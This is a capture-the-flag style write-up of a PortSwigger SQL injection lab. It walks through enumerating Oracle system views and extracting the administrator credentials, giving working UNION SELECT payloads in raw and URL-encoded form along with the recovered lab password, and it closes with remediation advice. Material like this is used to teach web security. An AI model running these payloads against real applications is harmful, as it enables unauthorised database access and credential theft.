




**Category:** SQL Injection  
**Difficulty:** Practitioner  
**Status:** ✅ Solved  
**Lab Link:** [PortSwigger Lab](https://portswigger.net/web-security/sql-injection/examining-the-database/lab-listing-database-contents-oracle)

---

## Objective

This lab contains a SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response so you can use a UNION attack to retrieve data from other tables.

The application has a login function, and the database contains a table that holds usernames and passwords. You need to determine the name of this table and the columns it contains, then retrieve the contents of the table to obtain the username and password of all users.

To solve the lab, log in as the `administrator` user.

---

## Background

SQL injection is a web security vulnerability that allows an attacker to interfere with the queries an application makes to its database. This occurs when user input is concatenated directly into SQL queries without proper sanitization.

In **UNION-based SQL injection**, an attacker can append a `UNION SELECT` statement to retrieve data from other tables. For this attack to succeed:

1. The injected query must return the **same number of columns** as the original query.
2. The data types in each column must be **compatible**.

When targeting **Oracle databases**, system views provide metadata about all tables and columns in the database. Unlike MySQL/PostgreSQL which use `information_schema`, Oracle uses:

| Purpose | MySQL/PostgreSQL | Oracle |
|---------|-----------------|--------|
| List all tables | `information_schema.tables` | `all_tables` |
| List all columns | `information_schema.columns` | `all_tab_columns` |

The `all_tables` view contains columns such as `OWNER`, `TABLE_NAME`, `TABLESPACE_NAME`, `STATUS`, and more. The `all_tab_columns` view contains `OWNER`, `TABLE_NAME`, `COLUMN_NAME`, `DATA_TYPE`, and other column metadata.

This lab demonstrates a complete database enumeration attack chain on Oracle: finding the table → finding the columns → extracting the credentials.

---

## My Approach

### Phase 1: Determine the Number of Columns

First, I needed to find how many columns the original query returns. I used the `ORDER BY` technique (see [Lab 7: Determining Number of Columns](07.%20SQL%20injection%20UNION%20attack,%20determining%20the%20number%20of%20columns%20returned%20by%20the%20query.md)):

```
https://<LAB-ID>.web-security-academy.net/filter?category=Gifts%27+ORDER+BY+2--
```

The application accepted `ORDER BY 2`, confirming the query returns **2 columns**.

### Phase 2: Enumerate Table Names

In Oracle, I queried the `all_tables` system view to list all tables in the database. This view contains columns: `OWNER`, `TABLE_NAME`, `TABLESPACE_NAME`, `STATUS`, and more. Since I confirmed 2 columns, I selected `TABLE_NAME` and `NULL`:

```sql
' UNION SELECT TABLE_NAME, NULL FROM all_tables--
```

This revealed a table named `USERS_LJUPSX`, which likely contains the user credentials.



### Phase 3: Enumerate Column Names

Next, I needed to find the column names within the `USERS_LJUPSX` table. In Oracle, the `all_tab_columns` view contains: `OWNER`, `TABLE_NAME`, `COLUMN_NAME`, `DATA_TYPE`, `DATA_LENGTH`, `NULLABLE`, and more. I queried for `COLUMN_NAME`:

```sql
UNION SELECT COLUMN_NAME, NULL FROM all_tab_columns WHERE table_name = 'USERS_LJUPSX'--
```

> [!NOTE] Oracle Table Names
> Oracle stores table names in **UPPERCASE** by default. When querying `all_tab_columns`, the `table_name` filter must match the exact case (e.g., `'USERS_LJUPSX'` not `'users_ljupsx'`).

This revealed two columns:
- `USERNAME_AIZRXG`
- `PASSWORD_OCGCMI`



### Phase 4: Extract Credentials with Concatenation

To retrieve both username and password in a single column (since the query returns 2 columns and I need one for data, one for `NULL`), I used SQL **concatenation** with the `||` operator:

```sql
USERNAME_AIZRXG || ' ~ ' || PASSWORD_OCGCMI
```

> [!NOTE] SQL Concatenation in Oracle
> 
> Oracle uses the `||` operator for string concatenation (same as PostgreSQL). This is different from other databases:
> 
> | Database | Concatenation Syntax | Example |
> |----------|---------------------|---------|
> | **Oracle** | `\|\|` operator | `col1 \|\| ' ~ ' \|\| col2` |
> | **PostgreSQL** | `\|\|` operator | `col1 \|\| ' ~ ' \|\| col2` |
> | **MySQL** | `CONCAT()` function | `CONCAT(col1, ' ~ ', col2)` |
> | **SQL Server** | `+` operator | `col1 + ' ~ ' + col2` |
> 
> The `' ~ '` separator makes the output readable and helps distinguish between the username and password in the response.

### Final Injection

```sql
' UNION SELECT USERNAME_AIZRXG || ' ~ ' || PASSWORD_OCGCMI, NULL FROM USERS_LJUPSX--
```

This returned the credentials: `administrator ~ o80lezqcn1epod2dkhgx`



### Phase 5: Log In

I navigated to **My Account** and logged in with:
- **Username:** `administrator`
- **Password:** `o80lezqcn1epod2dkhgx`



---

## Payload Used

### Payload 1: Column Count Enumeration
```URL
https://<LAB-ID>.web-security-academy.net/filter?category=Gifts%27+ORDER+BY+2--
```

### Payload 2: Table Name Enumeration
```URL
https://<LAB-ID>.web-security-academy.net/filter?category=Gifts%27+UNION+SELECT+TABLE_NAME,+NULL+FROM+all_tables--
```

### Payload 3: Column Name Enumeration
```URL
https://<LAB-ID>.web-security-academy.net/filter?category=Gifts%27+UNION+SELECT+COLUMN_NAME,+NULL+FROM+all_tab_columns+WHERE+table_name%3d%27USERS_LJUPSX%27--
```

### Payload 4: Credential Extraction (Final)
```URL
https://<LAB-ID>.web-security-academy.net/filter?category=Gifts%27+UNION+SELECT+USERNAME_AIZRXG+%7C%7C+%27+%7E+%27+%7C%7C+PASSWORD_OCGCMI,+NULL+FROM+USERS_LJUPSX--
```

**Decoded for clarity:**
```
category=Gifts' UNION SELECT USERNAME_AIZRXG || ' ~ ' || PASSWORD_OCGCMI, NULL FROM USERS_LJUPSX--
```

---

## Why It Worked

The original query likely looked like this:

```sql
SELECT * FROM products WHERE category = 'Gifts' AND released = 1
```

After the final injection, it became:

```sql
SELECT * FROM products WHERE category = 'Gifts' UNION SELECT USERNAME_AIZRXG || ' ~ ' || PASSWORD_OCGCMI, NULL FROM USERS_LJUPSX--' AND released = 1
```

### Breakdown

| Component | Purpose |
|-----------|---------|
| `'` | Closes the original string parameter in the `WHERE` clause |
| `UNION SELECT` | Appends a second query to retrieve data from another table |
| `USERNAME_AIZRXG \|\| ' ~ ' \|\| PASSWORD_OCGCMI` | Concatenates username and password into a single readable string using Oracle's `\|\|` operator |
| `NULL` | Fills the second column to match the original query's column count |
| `FROM USERS_LJUPSX` | Specifies the target table containing credentials |
| `--` | SQL comment sequence that neutralizes the rest of the original query |

The attack succeeded because:
1. **Column count matched** (2 columns confirmed via `ORDER BY`)
2. **Data types were compatible** (`NULL` works with most types)
3. **Oracle system views were accessible** (`all_tables` and `all_tab_columns` expose metadata by default)
4. **Concatenation worked** (`||` operator is native to Oracle)
5. **Case sensitivity handled correctly** (Oracle table names queried in UPPERCASE)

---

## How to Fix It

The only reliable defense is to **use parameterized queries (prepared statements)**. This ensures user input is treated as data, not executable code.

See [Lab 1: SQL Injection Fundamentals](01.%20SQL%20injection%20vulnerability%20in%20WHERE%20clause%20allowing%20retrieval%20of%20hidden%20data.md) for language-specific examples.

### Additional Recommendations

| Defense | Description |
|---------|-------------|
| **Parameterized Queries** | Always use placeholders instead of concatenating user input |
| **Least Privilege** | Database accounts should not have access to `all_tables` or `all_tab_columns` unless required |
| **Input Validation** | Validate and sanitize all user input, even when using parameterized queries |
| **Web Application Firewall (WAF)** | Deploy a WAF to detect and block SQL injection patterns |

---

## Key Takeaway

> This lab demonstrates a complete **database enumeration attack chain on Oracle**: (1) determine column count, (2) enumerate table names using `all_tables`, (3) enumerate column names using `all_tab_columns`, (4) extract sensitive data. Oracle system views are a goldmine for attackers—never trust user input, and always use **parameterized queries**. Remember: Oracle stores table names in **UPPERCASE** by default, and uses `||` for string concatenation (same as PostgreSQL). Different databases have different system views and syntax—knowing these differences is crucial for successful exploitation and defense.
